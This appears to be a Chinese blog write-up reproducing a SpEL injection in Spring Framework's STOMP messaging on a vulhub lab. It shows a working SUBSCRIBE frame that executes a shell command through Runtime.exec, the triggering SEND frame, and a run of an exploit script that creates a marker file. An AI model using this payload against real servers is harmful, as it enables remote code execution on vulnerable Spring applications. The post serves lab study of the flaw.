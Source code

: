

---




---


* 影响版本
Spring Framework 5\.0 to 5\.0\.4
Spring Framework 4\.3 to 4\.3\.14
* 漏洞复现
虽然我的电脑无法通过抓包来复现，但是还是要过一下流程
1\.开启靶场
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/ea5c41ad994241879dd544c535313b7c.png)
2\.点击网页中的connect抓包，发送payload



```
"SUBSCRIBE\nselector:T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')\nid:sub-0\ndestination:/topic/greetings\n\n\u0000"

```

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/0973cd9ab152481a8d71978f9c87963f.png)
3\.如果你的建立成功了，也就是说网页中的disconnect可以点击的话代表你已经成功连接了，然后点击send发送抓包。
（这里无须纠结为什么是app/hello，因为是demo让你复现的，真实环境的话你自己点击下出现发送send的数据包就抓下来即可，其实你点击发送就已经是攻击成了，主要是你在建立连接的时候，是否成功插入payload进去）



```
["SEND\ncontent-length:16\ndestination:/app/hello\n\n{\"name\":\"aaaaa\"}\u0000"]

```

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/0c690db814af4db098065d2588dcc281.png)
如果你查看容器下/tmp/有success就代表攻击成功了。
由于本人这种方式没有复现成功就使用攻击脚本来复现，脚本能够帮助你一直使用这个连接然后就不用抓包放包等建立连接了。
下载脚本：[exploit.py](https://github.com)
如果你是使用vulhub靶场来复现的只需要修改56行即可（如果不是就自行找到订阅和send）
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/6b2061522aeb4c8ca19742dd72deba95.png)
先查看确认靶场内不存在success文件（因为攻击命令就是创建success文件）
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/b2f4a3b869fc476eae1170d2bb31e43b.png)
然后直接运行py脚本，
这里我修改了一下脚本，将发送的data数据打印出来了，攻击过程更加清楚。
可以看到就是实打实的三步骤：
1\.先建立连接
2\.发送订阅，订阅消息中加入了SpEL恶意代码
3\.发送消息，触发SpEL解析
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/dde20d4a75ca49f184094ab05c7e78fb.png)
查看容器发现已经成功创建文件
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/1df708c41341488da048085558f5d219.png)
